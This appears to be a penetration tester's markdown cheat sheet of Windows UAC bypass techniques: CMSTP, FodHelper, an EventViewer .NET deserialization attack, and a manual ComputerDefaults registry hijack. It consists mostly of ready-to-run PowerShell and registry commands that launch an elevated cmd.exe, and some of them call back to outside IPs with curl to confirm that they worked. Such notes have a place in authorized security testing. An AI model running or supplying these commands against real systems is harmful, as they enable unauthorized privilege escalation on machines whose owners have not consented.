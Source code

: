 ## CMSTP

- Invoke and run: `Bypass-UAC -Command "curl http://192.168.45.223/worked"`

## FodHelper

- uses CurVer to abuse UAC, should bypass Windows Defender (?)

## EventViewer
- RCE through Unsafe .Net Deserialization in Windows Event Viewer which leads to UAC bypass.

```
    PS C:\Windows\Tasks> Import-Module .\Invoke-EventViewer.ps1
    
    PS C:\Windows\Tasks> Invoke-EventViewer 
    [-] Usage: Invoke-EventViewer commandhere
    Example: Invoke-EventViewer cmd.exe
    
    PS C:\Windows\Tasks> Invoke-EventViewer cmd.exe
    [+] Running
    [1] Crafting Payload
    [2] Writing Payload
    [+] EventViewer Folder exists
    [3] Finally, invoking eventvwr
```

## Manual Approach - ComputerDefaults

    New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
    New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "C:\Windows\System32\cmd.exe /c curl http://192.168.50.149/worked" -Force
    Start-Process "C:\Windows\System32\ComputerDefaults.exe"
